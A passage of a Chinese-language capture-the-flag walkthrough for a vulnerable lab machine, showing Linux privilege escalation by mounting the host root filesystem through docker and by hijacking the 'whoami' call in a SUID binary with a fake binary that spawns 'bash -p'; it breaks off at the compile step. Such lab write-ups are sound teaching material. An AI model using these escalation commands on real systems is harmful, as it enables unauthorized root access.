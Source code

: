 
docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
wordpress           latest              69e1f4ea543a        3 years ago         420MB
mysql               5.7                 e47e309f72c8        3 years ago         372MB
ubuntu              latest              47b19964fb50        3 years ago         88.1MB

发现Ubuntu镜像就是我们使用的！有docker权限就能读到/root中的文件了，利用docker run的-v参数，将/root挂载到容器中：

docker run -v /:/root -it ubuntu /bin/bash 
cd /root 
cd root 
cat flag

--------------------------------------------
--------------------------------------------
11、二进制提权

ls -lh $(find / -perm -u=s -type f 2>/dev/null)
find / -perm -4000 2>/dev/null

发现：
/home/hummingbirdscyber/Desktop/a.out

hummingbirdscyber@vulnvm:~$ /home/hummingbirdscyber/Desktop/a.out
root

看到回显root，测试是否能利用提权！

1. 逆向a.out，搞清楚程序具体干了什么
2. 寻找a.out的源文件，搞清楚程序具体干了什么

base64导出文件到本地！

IDA查看源码：
------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setgid(0);
  setuid(0);
  system("whoami");
  return 0;
}
------
a.out内部调用了whoami，于是可以尝试一下命令劫持！

写一个自己的whoami命令，内容为运行一个shell：
------
#include <stdlib.h>
int main(void) {
    system("/bin/bash -p");
    return 0;
}
------
编译它得到可执行文件whoami：
